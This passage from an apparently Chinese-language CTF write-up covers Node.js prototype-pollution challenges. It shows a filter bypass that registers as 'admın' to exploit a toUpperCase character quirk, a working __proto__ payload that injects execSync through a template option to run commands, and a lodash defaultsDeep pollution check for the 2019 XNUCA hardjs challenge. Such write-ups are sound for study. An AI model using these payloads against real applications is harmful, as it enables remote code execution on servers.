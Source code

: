 ```javascript
module.exports = router;
```

要触发原型链污染有个前提条件:  登录admin, 看源码的意思就是首先需要注册一个ADMIN, 但是``safekeyword``函数将这个操作限制住了, 然而``toUpperCase``有字符转化的特点, 参考

https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

因此使用``admın ``和随意的密码去注册一个用户, 就可以登录admin了, 登录admin之后通过action发送如下数据包



```
{"__proto__":{"outputFunctionName":"_tmp1;return global.process.mainModule.constructor._load('child_process').execSync('ls');//"}}
```



发送完之后访问一下/info就拿到了flag

![image-20200223184607314](/images/image-20200223184607314.png)





https://medium.com/bugbountywriteup/nodejs-ssrf-by-response-splitting-asis-ctf-finals-2018-proxy-proxy-question-walkthrough-9a2424923501

[https://github.com/xiaobye-ctf/CTF-writeups/blob/master/hackim-2020/web/split%20second/split%20second.md?tdsourcetag=s_pctim_aiomsg](https://github.com/xiaobye-ctf/CTF-writeups/blob/master/hackim-2020/web/split second/split second.md?tdsourcetag=s_pctim_aiomsg)

## 2019 XNUCA hardjs 复现

页面功能: 注册 登录 发表评论

拿到源代码之后首先使用命令``npm audit``来自动检测一下是否有存在漏洞的依赖包

![image-20200123220813194](/images/image-20200123220813194.png)

一个原型链污染漏洞, 好的. 看下``lodash``是干啥的

![image-20200123220954191](/images/image-20200123220954191.png)



查看源代码部分看看在哪里用到了这个``lodash``

![image-20200123221147765](/images/image-20200123221147765.png)

大意是访问``/get``路由就会从根据userid从数据库中查询出消息, 判断条数, 如果大于5条的话, 就会对每一条都进行一个``lodash.defaultsDeep``函数处理, 查查看payload

```javascript
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```
